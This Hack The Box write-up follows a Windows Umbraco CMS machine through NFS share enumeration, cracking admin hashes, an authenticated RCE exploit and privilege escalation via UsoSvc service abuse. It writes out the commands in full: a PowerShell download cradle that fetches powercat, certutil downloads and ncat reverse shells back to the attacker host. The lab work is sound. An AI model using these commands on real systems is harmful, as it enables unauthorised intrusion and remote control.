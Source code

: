![image](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/9f14fe3e-5d7d-43ae-9828-310704b98fce)

# Enumeration
Nmap:

![Pasted image 20230620152347](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/670c4087-bbce-47f8-b706-1201ce7318ba)

Oh boy that's a lot...

# Foothold
Starting with FTP. It does allow for anonymous login, but it doesn't seem to contain anything and I don't have permissions to upload anything. Likely just a rabbit hole. Moving on. 

Looking at the website, It doesn't have a whole lot going on. There are a couple pages I can visit. Oddly, there seems to be a pattern with the photos mentioning a brand called "Umbracos" and I don't know what that is... Quick search shows that it is a CMS company. Maybe that's a hint as to what the site is running? There are exploits for it, but unfortunately they are all authenticated so I'll need credentials to utilize them...

Port 111 has an RPCbind which might be interesting. 
Did some reading on hacktricks and they suggested running a more specific nmap scan:

![Pasted image 20230620154447](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/56d7c526-c88c-46e7-85da-270de8b73d5a)

This shows that there are things mounted and publicly visible. I can run a command from my attack machine to try and see the permissions:
```bash
$ showmount --exports 10.129.170.89
```
![Pasted image 20230620154607](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/0901cc5c-13e8-4445-baeb-e461df9a9bfd)

this site_backups might have some good information. Maybe some source code?
I'll mount it and check it out.  
> One thing of note here is that it is an NFS mount so I'll need to specify that during the mounting command

After mounting, I tried looking around, but there's a lot here and I'm not sure what I'm looking for. 
I was able to find a forum post mentioning how to check for version information. 
`Web.config` does show the version as 7.12.4, but again, the only exploits I can run are privileged...  

More digging lead me to a file called `Umbraco.sdf` which has a bunch of configuration stuff. I can run it with the `strings` command to find human readable characters:
![Pasted image 20230620155134](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/5ff5a2e3-4f68-42b2-9800-ae7cae793d10)

Those are hashes! I determined they are SHA1 hashes. Pointing hashcat at them reveals credentials:
```
username: admin@htb.local
Password: baconandcheese
```

Cool. Dirb also found a login page for the service at http://10.129.170.89/umbraco/
Testing this login was successful! Now we try an authenticated exploit!
Exploit used: https://github.com/noraj/Umbraco-RCE
I was able get a shell using powercat found here: https://www.hackingarticles.in/powershell-for-pentester-windows-reverse-shell/

I staqrted a netcat listener on 1234 and used the following code:
```bash
python exploit.py -u admin@htb.local -p baconandcheese -i http://10.129.170.89/ -c powershell.exe -a "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.59:8000/powercat.ps1');powercat -c 10.10.14.59 -p 1234 -e cmd"
```

Results:
![Pasted image 20230620155547](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/f76c83e9-3971-4a70-845b-d0f2f66d42ce)

Yay, we got the user!

# Privilege Escalation
First, I need to upload an enumeration script to a writeable directory. `C:\Windows\Temp\` is a good candidate. 
From here I uploaded a script called PowerUp which can be found on the attack box at `/usr/share/windows-resources/powersploit/Privesc/`

To get it on the machine, I need to use the following command:
![Pasted image 20230620155806](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/e82c9725-e84f-4a03-ab9d-ef4cb2eb6fb6)

Then running the command `Invoke-Allchecks` will run the script. 

..... waiting....

Something interesting!
![Pasted image 20230620155845](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/687be2ee-ec59-4680-b5f6-2d3ff720e4d1)

UsoSvc can be run as administrator!

Looking up how to leverage the exploit, I can use certutil.exe to download a netcat script from my linux machine:
```powershell
Certutil.exe -urlcache -f http://10.10.14.59:8000/ncat.exe C:\\Windows\Temp\ncat.exe
```

Now I just need to run the netcat executable using UsoSvc:
```powershell
Invoke-ServiceAbuse -ServiceName 'UsoSvc' -Command "C:\Windows\Temp\ncat.exe 10.10.14.59 1337 -e cmd.exe"
```
and......
![image](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/00e16ea3-fbb0-4502-b73e-143d2794c153)

PWNED!!!
